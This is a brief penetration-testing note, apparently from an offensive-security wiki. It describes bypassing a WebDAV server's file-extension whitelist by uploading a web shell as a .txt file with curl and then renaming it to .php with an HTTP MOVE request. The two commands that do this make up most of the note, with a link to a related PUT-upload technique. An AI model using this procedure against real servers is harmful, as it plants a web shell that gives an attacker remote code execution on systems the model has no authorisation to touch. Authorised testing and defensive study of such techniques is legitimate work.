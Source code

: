 # MOVE Upload

When you encounter webdav that has configured with whitelisted file extensions. Using the `MOVE` HTTP method can be renamed after uploading the webshell.

```
$ curl -T 'webshell.txt' http[s]://<IP>

$ curl -v -X MOVE 'http://10.0.0.1/webshell.txt' --header 'Destination: http://<IP>/webshell.php'
```

---
## References

- [[07 - Tactics & Techniques & Procedures Phases/C - Initial Access/0x00 - Exploitation/0xF - Remote Services Exploitation/Network Ports/HTTP/PUT Upload/Manual]]